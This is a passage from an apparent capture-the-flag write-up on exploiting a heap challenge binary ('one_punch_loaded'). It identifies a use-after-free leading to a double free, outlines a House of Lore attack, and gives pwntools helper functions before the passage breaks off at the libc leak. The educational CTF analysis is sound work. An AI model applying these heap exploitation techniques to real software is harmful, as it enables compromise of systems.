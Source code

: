 * The add function does the calloc part , it can allocate chunks in range of sizes from [0x7f,0x400].
* The free function has **Use After Free** as it does not null the pointer of the freed chunk.
* The view function  views a chunk at requested idx.
* The edit function safely edits a chunk at requested idx.
* We have a secret function which can call malloc only when 0x220 tcache is filled with all 7 chunks of that size.

Since we have **UAF** , we can edit free chunks also , hence we can **Double Free** by bypassing fd , bk checks in malloc.

Now we have everything we need to perform **House Of Lore**.

## Exploit Development

We can begin with creating wrapper functions which do necessary stuff for us.

```py
from pwn import *
import sys

io=process("./one_punch_loaded",env = {"LD_PRELOAD" : "./libc.so.6"})

if(len(sys.argv) == 1):
    context.noptrace = True

def add(idx,name):
    io.sendlineafter("> ",'1')
    io.sendlineafter("idx: ",str(idx))
    io.sendlineafter("name: ",str(name))

def edit(idx,name):
    io.sendlineafter("> ",'2')
    io.sendlineafter("idx: ",str(idx))
    io.sendafter("name: ",name)

def view(idx):
    io.sendlineafter("> ",'3')
    io.sendlineafter("idx: ",str(idx))

def free(idx):
    io.sendlineafter("> ",'4')
    io.sendlineafter("idx: ",str(idx))

def secret(data):
    io.sendlineafter("> ",'50056')
    io.send(data)

```

Leaking both libc and heap should not require much explanation so I'll go right away with that.

We leak libc by viewing an unsorted bin chunk after filling up 0x220 tcache.

